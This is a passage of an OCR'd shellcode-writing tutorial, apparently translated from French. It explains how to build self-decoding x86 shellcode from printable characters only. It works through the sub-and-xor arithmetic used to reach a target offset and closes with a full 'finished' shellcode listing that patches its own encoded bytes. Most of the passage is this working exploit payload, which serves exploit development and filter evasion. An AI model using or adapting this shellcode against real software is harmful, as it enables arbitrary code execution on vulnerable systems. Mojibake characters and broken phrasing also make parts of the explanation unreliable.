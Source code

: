 ```asm
0000006d       30784A         xor [eax+0x4a], bh
00000070       30784B         xor [eax+0x4b], bh
00000073       30704B         xor [eax+0x4b], dh
00000076 	   db       '1?161-MYjZhthanhjonavNLQOT2$1/$1OQ2/'
```



must [eax + 40] has this value is

So we add 0x76 鈥� 0x28 in eax for getting the right byte, ie add 0x4e.
Even the calculation to determine what to avoid, knowing that they must subtract
corresponding to displayable characters!

0 鈥� 6D6D6D30 = 929292D0 鈥� 51515130 = 414141A0 鈥� 41414152 = 4E

The account is good!

Our shellcode is finished:

```asm
dec esp
dec esp
dec esp
dec esp
pop edx
push dword 0x58494741
pop eax
xor eax, 0x58494741
dec eax
push esp
pop ecx
push edx
push ecx
push edx
push eax
push esp
push ebp
push esi
push edi
popad
sub eax, 0x6D6D6D30
sub eax, 0x51515130
sub eax, 0x41414152
xor [eax + 41], bh
xor [eax + 43], bh
xor [eax + 45], bh
xor [eax + 47], bh
xor [eax + 48], bh
push word 0x5050
pop dx
xor [eax + 49], dh
xor [eax +51], dh
xor [eax + 62], bh
xor [eax + 63], bh
xor [eax + 63], dh
xor [eax + 64], bh
xor [eax +65], dh
xor [eax + 66], bh
xor [eax +67], dh
xor [eax + 68], bh
xor [eax +69], bh
xor [eax +69], dh
xor [eax + 71], bh
xor [eax + 72], bh
xor [eax +73], dh
xor [eax + 74], bh
```